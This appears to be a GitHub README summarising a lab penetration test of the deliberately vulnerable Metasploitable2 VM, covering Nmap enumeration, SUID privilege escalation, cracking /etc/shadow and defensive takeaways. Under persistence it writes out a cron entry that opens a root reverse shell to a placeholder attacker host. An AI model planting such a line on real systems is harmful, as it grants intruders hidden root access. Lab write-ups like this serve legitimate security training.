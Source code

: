 # cybersecurity-privilege-escalation
This project covers an end-to-end penetration testing workflow on Metasploitable2, focusing on enumeration, exploitation, privilege escalation, password cracking, and persistence.


Project II – System Enumeration, Privilege Escalation & Persistence

📌 Overview
This project showcases a full penetration testing workflow on **Metasploitable2**, covering **enumeration, exploitation, privilege escalation, password cracking, and persistence**. The exercise demonstrates attacker methodologies and defensive lessons.

---

🛠️ Tools & Technologies
- **Nmap** – Network & Service Enumeration  
- **Searchsploit/Metasploit** – Exploit Discovery  
- **Linux Commands** – User discovery, privilege escalation  
- **John the Ripper** – Password Cracking  
- **Cron Jobs & Bash** – Persistence mechanisms  

---

🔎 Key Activities
1. System Enumeration (Nmap)  
   - Scanned target `192.168.1.26`.  
   - Discovered services: FTP (vsFTPd 2.3.4), SSH, Telnet, HTTP, MySQL, PostgreSQL, VNC, SMB, etc.  

2. User Account Discovery  
   - Extracted accounts (`msfadmin`, `user`, `services`, `nobody`) via `/etc/passwd`.  

3. SUID Binary Discovery  
   - Identified `/usr/lib/apache2/suexec` and `/usr/lib/openssh/ssh-keysign` as privilege escalation candidates.  

4. Privilege Escalation  
   - Exploited misconfigured SUID binary to gain **root access**.  
   - Verified with `whoami` before (msfadmin) → after (root).  

5. Password Cracking  
   - Extracted `/etc/shadow`.  
   - Cracked weak passwords (`batman`, `123456789`, `service`) using *John the Ripper*.  

6. Persistence Mechanism 
   - Added reverse shell payload via **cron job**:  
     ```bash
     @reboot root bash -i >& /dev/tcp/<Kali-IP>/4444 0>&1
     ```  
   - Alternative: Injected payload into `.bashrc`.  

---


---

✅ Key Takeaways
- Enumeration reveals multiple entry points; patch unnecessary services.  
- SUID misconfigurations remain a major root escalation vector.  
- Enforce strong password policies to prevent easy cracking.  
- Persistence detection requires monitoring cron jobs and startup scripts.  
